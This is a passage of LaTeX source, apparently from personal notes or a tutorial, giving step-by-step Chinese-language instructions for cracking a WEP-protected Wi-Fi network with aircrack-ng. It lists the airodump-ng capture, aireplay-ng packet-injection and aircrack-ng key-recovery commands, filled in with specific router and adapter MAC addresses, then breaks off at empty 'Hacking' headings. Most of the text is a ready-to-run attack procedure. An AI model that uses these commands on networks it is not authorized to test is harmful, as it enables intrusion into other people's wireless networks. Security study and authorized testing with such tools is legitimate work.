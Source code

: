 \documentclass{book}
\begin{document}
（mon0 是启动监控模式后无线网的端口）
查看有哪些采用wep加密的AP在线，然后按 ctrl+c 中止，不要关闭终端。

\paragraph{抓包}
打开另一个终端，输入：

\begin{lstlisting}[language=Bash]
sudo airodump-ng --channel 6 --bssid AP’s MAC -w wep mon0

sudo airodump-ng --bssid 28:2C:B2:E4:F5:5A -c 13 -w 619 --ignore-negative-one mon0
\end{lstlisting}

(-c后面跟着的6是要破解的AP工作频道，–bissid后面跟着的AP’sMAC是要欲破解AP的MAC地址，
-w后面跟着wep的是抓下来的数据包DATA保存的文件名，具体情况根据步骤2里面的在线AP更改频道和MAC地址，
DATA保存的文件名可随便命名）

本机Mac：00:25:d3:9a:b6:01

路由Mac：C0:61:18:9A:76:D2

\paragraph{与AP建立虚拟连接}
再打开一个新终端，输入：

\begin{lstlisting}[language=Bash]
aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b C0:61:18:9A:76:D2 -h 00:25:d3:9a:b6:01 mon0
\end{lstlisting}


（-h后面跟着的My MAC是自己的无线网卡的MAC地址，即ifconfig命令下wlan0对应的mac地址)

\paragraph{解密}
收集有15000个以上的DATA之后，另开一个终端，切换到aircrack-ng-1.1目录，执行以下命令
sudo aircrack-ng wep*.cap
进行解密
（如果没算出来的话，继续等，aircrack-ng 会在DATA每增加多15000个之后就自动再运行，
直到算出密码为至，注意此处文件的名字要与步骤3里面设置的名字一样，且*号是必需的）

\section{Hacking}

\subsection{Google Hacking}
\end{document}
